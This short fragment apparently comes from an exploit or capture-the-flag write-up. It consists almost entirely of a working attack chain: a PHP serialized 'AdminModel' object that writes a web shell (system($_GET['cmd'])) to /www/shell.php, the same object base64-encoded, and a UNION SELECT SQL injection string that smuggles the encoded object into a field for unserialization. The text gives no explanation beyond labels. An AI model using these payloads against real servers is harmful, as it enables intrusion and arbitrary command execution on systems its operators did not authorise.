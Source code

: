 Admin Object Model:
O:+10:"AdminModel":2:{s:8:"filename";s:14:"/www/shell.php";s:10:"logcontent";s:30:"<?php system($_GET['cmd']); ?>";}

b64-encoded:
TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30=

SQL Injection
-1 UNION SELECT 0 AS id, 'abhi' as name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30=' as oldvalue, 0 as price